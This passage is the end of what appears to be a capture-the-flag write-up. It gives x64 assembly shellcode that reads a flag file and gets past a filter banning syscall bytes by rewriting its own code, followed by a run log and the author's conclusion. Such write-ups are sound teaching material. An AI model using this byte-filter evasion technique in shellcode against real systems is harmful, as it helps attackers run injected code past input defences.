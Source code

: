 <span class="Comment">;;; WRITE</span>

  <span class="Comment">; Syscall 1 = sys_write</span>
  <span class="Identifier">xor</span> <span class="Identifier">rax</span>, <span class="Identifier">rax</span>
  <span class="Identifier">inc</span> <span class="Identifier">rax</span>

  <span class="Comment">; File handle to write to = stdout = 1</span>
  <span class="Identifier">xor</span> <span class="Identifier">rdi</span>, <span class="Identifier">rdi</span>
  <span class="Identifier">inc</span> <span class="Identifier">rdi</span>

  <span class="Comment">; (rsi is already the buffer)</span>

  <span class="Comment">; rdx is the count again</span>
  <span class="Identifier">xor</span> <span class="Identifier">rdx</span>, <span class="Identifier">rdx</span>
  <span class="Identifier">mov</span> <span class="Identifier">dl</span>, <span class="Number">30</span>

  <span class="Comment">; Perform the sys_write syscall, writing the data to stdout</span>
  <span class="Identifier">call</span> <span class="Identifier">rbx</span>

<span class="Comment">;;; EXIT</span>
  <span class="Comment">; Syscall 60 = exit</span>
  <span class="Identifier">xor</span> <span class="Identifier">rax</span>, <span class="Identifier">rax</span>
  <span class="Identifier">mov</span> <span class="Identifier">al</span>, <span class="Number">60</span>

  <span class="Comment">; Exit with code 0</span>
  <span class="Identifier">xor</span> <span class="Identifier">rdi</span>, <span class="Identifier">rdi</span>

  <span class="Comment">; Perform an exit</span>
  <span class="Identifier">call</span> <span class="Identifier">rbx</span>

<span class="Identifier">my_fake_syscall_bottom</span>:
  <span class="Identifier">call</span> <span class="Identifier">my_fake_syscall_top</span>

  <span class="Comment">; This little block will become "syscall / ret"</span>
  <span class="Identifier">db</span> <span class="Number">0x0e</span>, <span class="Number">0x04</span> <span class="Comment">; syscall is actually 0x0f 0x05</span>
  <span class="Identifier">ret</span> <span class="Comment">; Return after doing a syscall</span>


<span class="Identifier">getfilename_bottom</span>:
  <span class="Identifier">call</span> <span class="Identifier">getfilename_top</span>

  <span class="Identifier">db</span> "/<span class="Identifier">home</span>/<span class="Identifier">ctf</span>/<span class="Identifier">flag</span><span class="Statement">.txt</span>" <span class="Comment">; The literal flag, fortunately the buffer itself is null-filled so we don't need to null terminate</span>
</pre>
And, of course, validate it works:
<pre>$ nasm -o solution3.bin solution3.asm
$ ./runme3 &lt; solution3.bin
Send me x64!! No nulls, plz. Also no 0xcd, 0x80, 0x0f, or 0x05.
CTF{fake_flag}
</pre>
<h2>Conclusion</h2>
Hopefully that makes sense! I know that self re-writing code is far tricker than the rest, but hopefully it's not too crazy! I really didn't mean the difficulty ramp to be that steep, but next year I'm definitely going to do a much, much gentler difficulty slope :)
